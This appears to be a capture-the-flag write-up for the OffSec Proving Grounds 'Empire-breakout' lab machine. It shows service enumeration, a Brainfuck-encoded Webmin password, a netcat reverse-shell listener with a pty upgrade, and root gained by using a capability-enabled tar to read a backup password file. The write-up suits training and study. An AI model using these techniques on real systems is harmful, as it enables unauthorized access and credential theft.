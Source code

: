 ```yaml
---
title: "Proving grounds Play: Empire-breakout"
layout: post
date: 2023-10-01 03:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.51 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http    MiniServ 1.981 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: C7F93A5D476A64454D4E271B24571406
|_http-title: 200 &mdash; Document follows
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.981
20000/tcp open  http    MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-favicon: Unknown favicon MD5: 953B40D37322DDEFEEC092BC48AEA904
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.830
```

## SMB Username Enumeration

Using `enum4linux` the username cyber has been discovered.

## 80/tcp - open  http - Apache httpd 2.4.51 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web.png)

There is a encrypted text commented in the source code of the apache page `view-source:http://192.168.240.238/`.

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->
```

## Cipher Analysis

[https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis1.png)

**Brainfuck**

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis2.png)

Upon analysis the algorithm of the encrypted text has been discovered which is `Brainfuck`.

## Brainfuck decode

[https://www.splitbrain.org/_static/ook/](https://www.splitbrain.org/_static/ook/)

**Decoded text**

```text
.2uqPEfj3D<P'a-3
```

## 20000/tcp - open  http - MiniServ 1.830 (Webmin httpd)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web2.png)

Login to the portal using the username `cyber` and password `.2uqPEfj3D<P'a-3`.

Click on the interactive shell and create a reverse shell connection.

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/shell.png)

```sh
naveenj@hackerspace:|01:09|~/pg-play/Empire-breakout$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.238] 55430
python3 -c 'import pty; pty.spawn("/bin/bash")'
cyber@breakout:~$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Enumerate the machine's extended capabilities.

```sh
cyber@breakout:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:~$ 
```

There is a binary `tar` located in the folder `/home/cyber`, which can be used to reveal the contents of the restricted files.

Upon checking the folders there is a old password file exists in the `backups` folder.

```sh
cyber@breakout:~$ cd /var/backups
cd /var/backups
cyber@breakout:/var/backups$ ll
ll
total 484K
4.0K drwxr-xr-x  2 root root 4.0K Dec  8  2022 .
 40K -rw-r--r--  1 root root  40K Dec  8  2022 alternatives.tar.0
   0 -rw-r--r--  1 root root    0 Dec  8  2022 dpkg.arch.0
 16K -rw-r--r--  1 root root  13K Nov 17  2022 apt.extended_states.0
4.0K -rw-------  1 root root   17 Oct 20  2021 .old_pass.bak    #old password file
404K -rw-r--r--  1 root root 404K Oct 19  2021 dpkg.status.0
4.0K -rw-r--r--  1 root root 1.5K Oct 19  2021 apt.extended_states.1.gz
4.0K drwxr-xr-x 14 root root 4.0K Oct 19  2021 ..
4.0K -rw-r--r--  1 root root  186 Oct 19  2021 dpkg.diversions.0
4.0K -rw-r--r--  1 root root  135 Oct 19  2021 dpkg.statoverride.0
cyber@breakout:/var/backups$ 
```

### Exploitation

Use the tar utility to compress the old password file.

```sh
cyber@breakout:~$ ./tar -cvf old_pass.tar /var/backups/.old_pass.bak    #compress
./tar -cvf old_pass.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak
cyber@breakout:~$ ll
4.0K drwxr-xr-x  8 cyber cyber 4.0K Oct  1 01:28 .12K -rw-r--r--  1 cyber cyber  10K Oct  1 01:28 old_pass.tar   #compressed file
4.0K -rw-r--r--  1 root  root    33 Oct  1 01:01 local.txt
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 20  2021 .tmp
   0 -rw-------  1 cyber cyber    0 Oct 20  2021 .bash_history
520K -rwxr-xr-x  1 root  root  520K Oct 19  2021 tar
4.0K drwxr-xr-x  3 cyber cyber 4.0K Oct 19  2021 .local
4.0K drwx------ 16 cyber cyber 4.0K Oct 19  2021 .usermin
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 19  2021 .filemin
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .gnupg
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .spamassassin
4.0K -rw-r--r--  1 cyber cyber  220 Oct 19  2021 .bash_logout
4.0K -rw-r--r--  1 cyber cyber 3.5K Oct 19  2021 .bashrc
4.0K -rw-r--r--  1 cyber cyber  807 Oct 19  2021 .profile
4.0K drwxr-xr-x  3 root  root  4.0K Oct 19  2021 ..
cyber@breakout:~$
```

Extract the compressed file to read the password file.

```sh
cyber@breakout:~$ ls
ls
local.txt  old_pass.tar  tar  var   #extracted var folder
cyber@breakout:~$ cd var
cd var
cyber@breakout:~/var$ ls
ls
backups
cyber@breakout:~/var$ cd backups
cd backups
cyber@breakout:~/var/backups$ ll
ll
total 12K
4.0K drwxr-xr-x 2 cyber cyber 4.0K Oct  1 01:32 .
4.0K drwxr-xr-x 3 cyber cyber 4.0K Oct  1 01:32 ..
4.0K -rw------- 1 cyber cyber   17 Oct 20  2021 .old_pass.bak   #password file
cyber@breakout:~/var/backups$ cat .old_pass.bak
cat .old_pass.bak
Ts&4&YurgtRX(=~h    #password
cyber@breakout:~/var/backups$
```

Switch to root user and use the password found above.

```sh
cyber@breakout:~/var/backups$ su root
su root
Password: Ts&4&YurgtRX(=~h
root@breakout:/home/cyber/var/backups# 
cd
root@breakout:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
